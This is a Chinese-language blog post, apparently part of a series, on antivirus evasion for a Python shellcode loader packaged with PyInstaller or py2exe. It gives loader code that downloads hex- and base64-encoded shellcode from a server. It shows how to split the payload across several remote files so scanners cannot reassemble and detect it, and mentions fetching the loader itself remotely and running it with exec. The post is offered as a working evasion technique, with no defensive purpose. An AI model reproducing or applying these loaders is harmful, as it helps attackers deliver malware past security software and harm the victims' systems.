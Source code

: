 前几文补充
=====

前几文忘记标注python环境了，环境不同会导致很多问题的。。。

python2.7

pyinstaller3.0

```php
pip install pyinstaller==3.0
```

生成exe文件也可以用py2exe打包，因为pyinstaller很多特征也被标记恶意了。。。。

shellcode编码
===========

shellcode实际上是一段操作代码，计算机实现特定恶意功能的机器码转换成16进制

我是将shellcode生成后，经hex编码，再b ase64编码，放在了服务器123.txt文件上

然后loader访问该文件即可

```php
scode = requests.get("http://192.168.1.1/123.txt")
shellcode = bytearray(b ase64.b64decode(scode.text).decode('hex'))
```

只要你的IP或URL没有被标记恶意网站或c2服务器，基本是不会拦截访问的。

但是
--

我们还是怕被检测到访问的是恶意代码，这里就萌生了我之前php免杀的思路《拆分代码》

将编码后的代码，分成几段，放在服务器上不同文件上

由于是单个单个访问代码的部分片段，杀软没这本事将所有片段拼起来再检测有没有恶意。

举例
--

将b ase64代码分成两段放在服务器1.txt，2.txt

然后加载将文本拼接起来，解码就得了

```php
scode1 = requests.get("http://192.168.1.1/1.txt")
scode2 = requests.get("http://192.168.1.1/2.txt")

shellcode = bytearray(b ase64.b64decode(scode1.text+scode2.text).decode('hex'))
```

或者将b代码分成三段,然后分别进行b ase64编码

```php
scode1 = requests.get("http://192.168.1.1/1.txt")
scode2 = requests.get("http://192.168.1.1/2.txt")
scode3 = requests.get("http://192.168.1.1/3.txt")

shellcode = bytearray((b ase64.b64decode(scode1.text)+b ase64.b64decode(scode2.text)+b ase64.b64decode(scode3.text)).decode('hex'))
```

自己搞个加密方式，加密后上传服务器也行。

这些就比较随心所欲了，怎么拆分的逆着怎么还原就行。

同理，如果你的loader也是放在服务器上的，可以相同方式加载然后exec执行。

就记住一点杀软没这本事将所有片段拼起来再检测有没有恶意，就算是人工溯源也够他喝一壶的了。